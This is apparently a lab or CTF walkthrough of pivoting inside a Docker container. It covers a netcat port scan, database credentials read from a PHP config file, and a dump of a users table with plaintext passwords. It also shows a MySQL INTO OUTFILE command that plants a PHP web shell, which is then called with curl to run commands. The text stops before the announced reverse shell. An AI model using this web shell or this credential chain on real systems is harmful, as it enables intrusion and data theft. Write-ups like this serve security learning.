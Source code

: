 # L-SRV02 Docker Container

We entered this docker container by exploiting RCE in [L-SRV01](../L-SRV01/L-SRV01.md) web server.

## Enumeration

Using netcat to portscan with `nc -zv 127.0.0.1 1-65535` we find that the following ports are open.

```
localhost [127.0.0.1] 3306 (mysql) open
localhost [127.0.0.1] 80 (http) open
```

In the container's default gateway (`192.168.100.1`) we find that the following ports are open.

```
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```

Checking the `/var/www/admin/db_connect.php` file, we find credentials.

```
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```

Username: `admin`  
Password: `!123SecureAdminDashboard321!`

Using these credentials, we can access the database in `192.168.100.1` using the command `mysql -h 192.168.100.1 -u admin -p`.

We can enumerate databases.
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use DashboardDB
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
2 rows in set (0.00 sec)
```

Now we have more creds. 

Username: `gurag`  
Password: `AAAA`

We can exploit MySQL database to gain RCE using `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`.

Now we have RCE on the host machine. WE can execute commands using `curl 192.168.100.1:8080/shell.php?cmd=COMMAND`.

Now to get a reverse shell.

